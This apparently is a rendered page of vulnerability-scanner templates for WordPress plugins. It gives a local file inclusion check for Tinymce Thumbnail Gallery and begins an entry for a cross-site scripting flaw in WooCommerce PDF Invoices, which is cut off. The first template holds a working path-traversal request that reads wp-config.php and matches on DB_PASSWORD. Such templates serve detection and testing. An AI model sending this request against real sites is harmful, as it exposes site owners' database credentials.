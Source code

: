 - status
  1. 200

---

# Tinymce Thumbnail Gallery \<=1.0.7 - Local File Inclusion

## Description

- Tinymce Thumbnail Gallery 1.0.7 and before are vulnerable to local file inclusion via download-image.php.
- severity - high
- tags - wordpress,wp-theme,lfi,wordpress,tinymce

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/tinymce-thumbnail-gallery/php/download-image.php?href=../../../../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress WooCommerce PDF Invoices & Packing Slips \<2.15.0 - Cross-Site Scripting

## Description

- WordPress WooCommerce PDF Invoices & Packing Slips 2.15.0 does not escape some URLs before outputting them in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - xss,wp,wordpress,woocommerce,authenticated,wpscan,wp-plugin

## Requests
